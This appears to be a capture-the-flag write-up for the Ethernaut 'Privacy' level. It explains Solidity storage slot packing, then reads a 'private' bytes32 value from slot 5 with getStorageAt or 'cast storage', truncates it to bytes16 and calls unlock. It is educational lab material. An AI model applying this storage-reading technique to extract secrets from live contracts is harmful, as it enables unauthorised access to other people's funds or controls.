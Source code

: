### Level 12 Privacy
To unlock this contract, Inspect the storage of the Privacy contract to extract the _key value

## Prerequisites
- Layout of storage variables in solidity
- Reading a storage slot in a contract 
- Fixed size byte arrays
- understanding how parameter parsing works
- understanding how casting works

## solution
The Privacy contract has been locked, to unlock this contract 
we need to call the unlock function with the value of (bytes16 _key).
From the unlock function, we can see the ``bytes16 _key`` is the value of the third entry
in the ``bytes32[3] private data`` variable declared in the contract.

We have to read the value of ``data[2]`` from storage. To do this we have to determine the slot in storage.

First we have `` bool public locked = true`` which is 1 byte -> `` slot 0 ``
`` uint256 ID = block.timestamp `` which is 32 bytes -> `` slot 1 `` 
``uint8 flattening`` -> 1 byte -> `` slot 2 ``
``uint8 denomination`` -> 1 byte -> `` slot 2 ``
``uint16 awkwardness`` -> 2 bytes -> `` slot 2 ``
`` bytes32[3] data `` array data starts at a new slot, this starts at slot 3
each entry is a bytes32 type so they take up their own slot
i.e slot 3, 4, and 5.

Now that we have established slot 5 as the location of the third entry and our key.

To read the storage data in slot 5:
```javascript
 key = await web3.eth.getStorageAt(contract.address, 5); 
 
 // Output: '0x5dd89f7b81030395311dd63330c747fe293140d92dbe7eee1df2a8c233ef8d6d'
```

The key is 32 bytes. But the require check in unlock converts the data[2] value to a 16 bytes.
```js
 bytes16(data[2])
```
This will truncate the last 16 bytes of the data and return only the first 16 bytes
So we need the '0x' prefix and the first 16 bytes
```js
key = key.slice(0, 34);

// output - 0x5dd89f7b81030395311dd63330c747fe
```

Call unlock  funtion with the value of key
```javascript
await contract.unlock(key);
```
Verify unlock by:
```js
  await contract.locked();

  // Output - false
```
To read contract storage in your foundry project use cast
```javascript
cast storage [contract.address] [slot]
cast storage 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2 5
```
